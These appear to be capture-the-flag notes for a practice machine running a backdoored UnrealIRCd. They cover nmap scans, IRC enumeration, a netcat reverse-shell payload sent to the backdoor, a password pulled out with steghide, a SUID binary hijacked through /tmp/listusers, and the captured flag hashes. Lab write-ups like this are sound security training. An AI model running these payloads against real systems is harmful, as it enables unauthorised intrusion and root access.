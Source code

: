 **IPv4: 10.129.234.149**



## Enumeration/Scanning
sudo nmap -sV -sC -O -v -Pn 10.129.234.149

PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
80/tcp  open  http    Apache httpd 2.4.10 ((Debian))
111/tcp open  rpcbind 2-4 (RPC #100000)

http://10.129.234.149/
* "IRC is almost working!"

Scan IRC ports
sudo nmap -sV -sC -O -v -Pn -p194,6667,6660-7000 10.129.234.149

PORT     STATE SERVICE VERSION
6697/tcp open  irc     UnrealIRCd

nc IP 6697

admin
:irked.htb 256 ran213eqdw123 :Administrative info about irked.htb
:irked.htb 257 ran213eqdw123 :Bob Smith
:irked.htb 258 ran213eqdw123 :bob
:irked.htb 258 ran213eqdw123 :widely@used.name

info
Unreal3.2.8.1

https://www.rapid7.com/db/modules/exploit/unix/irc/unreal_ircd_3281_backdoor/

AB; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.4 4444 >/tmp/f

nc listener

shell gained

/home/djmardoc/Documents/
cat .backup
Super elite steg backup pw
UPupDOWNdownLRlrBAbaSSss

wget http://10.129.234.149/irked.jpg

steghide extract -sf irked.jpg -p UPupDOWNdownLRlrBAbaSSss 

Kab6h+m+bbp2J:HG

f725358749c22cdb0fc1d79a6156c32e

SETUID binary for /usr/bin/viewuser
when run: sh: 1: /tmp/listusers: not found

echo sh > /tmp/listusers

chmod +x /tmp/listusers

run viewuser again

root

6f76fb820afc62907311ec27869b456b


## Exploitation


## Privilege Escalation


## Post-exploitation

